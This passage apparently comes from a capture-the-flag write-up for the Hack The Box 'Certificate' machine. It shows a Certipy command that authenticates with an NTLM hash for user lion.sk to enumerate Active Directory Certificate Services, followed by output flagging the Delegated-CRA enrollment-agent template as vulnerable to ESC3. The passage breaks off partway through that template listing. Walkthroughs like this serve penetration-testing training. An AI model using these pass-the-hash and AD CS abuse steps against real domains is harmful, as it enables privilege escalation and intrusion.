 Of course our next step was to fire `Certipy` to see if there was any chance of abusing `Active Directory Certificate Services (AD CS)`. We found out that the configuration was vulnerable to `ESC3` which describes vulnerabilities in `Enrollment Agent Templates`.

```shell
┌──(kali㉿kali)-[~]
└─$ certipy-ad find -username 'lion.sk' -hashes '3b24c391862f4a8531a245a0217708c4' -dc-ip 10.129.37.186 -vulnerable -stdout
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 35 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 12 enabled certificate templates
[*] Finding issuance policies
[*] Found 18 issuance policies
[*] Found 0 OIDs linked to templates
[*] Retrieving CA configuration for 'Certificate-LTD-CA' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Successfully retrieved CA configuration for 'Certificate-LTD-CA'
[*] Checking web enrollment for CA 'Certificate-LTD-CA' @ 'DC01.certificate.htb'
[!] Error checking web enrollment: timed out
[!] Use -debug to print a stacktrace
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : Certificate-LTD-CA
    DNS Name                            : DC01.certificate.htb
    Certificate Subject                 : CN=Certificate-LTD-CA, DC=certificate, DC=htb
    Certificate Serial Number           : 75B2F4BBF31F108945147B466131BDCA
    Certificate Validity Start          : 2024-11-03 22:55:09+00:00
    Certificate Validity End            : 2034-11-03 23:05:09+00:00
    Web Enrollment
      HTTP
        Enabled                         : False
      HTTPS
        Enabled                         : False
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Active Policy                       : CertificateAuthority_MicrosoftDefault.Policy
    Permissions
      Owner                             : CERTIFICATE.HTB\Administrators
      Access Rights
        ManageCa                        : CERTIFICATE.HTB\Administrators
                                          CERTIFICATE.HTB\Domain Admins
                                          CERTIFICATE.HTB\Enterprise Admins
        ManageCertificates              : CERTIFICATE.HTB\Administrators
                                          CERTIFICATE.HTB\Domain Admins
                                          CERTIFICATE.HTB\Enterprise Admins
        Enroll                          : CERTIFICATE.HTB\Authenticated Users
Certificate Templates
  0
    Template Name                       : Delegated-CRA
    Display Name                        : Delegated-CRA
    Certificate Authorities             : Certificate-LTD-CA
    Enabled                             : True
    Client Authentication               : False
    Enrollment Agent                    : True
    Any Purpose                         : False
    Enrollee Supplies Subject           : False
    Certificate Name Flag               : SubjectAltRequireUpn
                                          SubjectAltRequireEmail
```